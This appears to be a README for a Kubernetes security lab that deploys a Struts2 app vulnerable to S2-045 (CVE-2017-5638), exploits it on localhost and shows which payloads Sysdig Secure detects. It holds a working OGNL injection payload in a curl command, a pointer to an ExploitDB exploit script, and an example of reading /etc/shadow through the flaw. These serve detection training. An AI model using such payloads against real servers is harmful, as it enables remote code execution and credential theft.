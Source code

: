 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

A clear distinction must be made between an OGNL payload that stays within Java’s memory (e.g., returning 1337 in a custom header) and one that spawns a system-level process (e.g., cat /etc/shadow).

### Header Injection 
The payload executes in Struts memory, returning **1337** via the vulhub **header**.
No new process, no file access, and no unusual network connections occur.
Sysdig (or any runtime analysis) does not flag this as malicious because it sees no suspicious system calls.


### Python Script (Spawning a Process)
The payload calls `cat /etc/shadow`, causing Java to execute a new child process.
Sysdig sees `/bin/cat /etc/shadow` and raises a **Medium** severity alert because it recognizes unexpected process execution attemtpting to access a sensitive file.

Verify in Sysdig Secure:
Go to **Threats → Sysdig Runtime Notable Events**.
Find the corresponding Event ID (e.g., 18191e49f34866df273474732a500c25).
In summary, a simple header injection won’t trigger Sysdig, but any payload that spawns a process or accesses sensitive resources will. This showcases early detection and the need for refined rulesets within your tools!



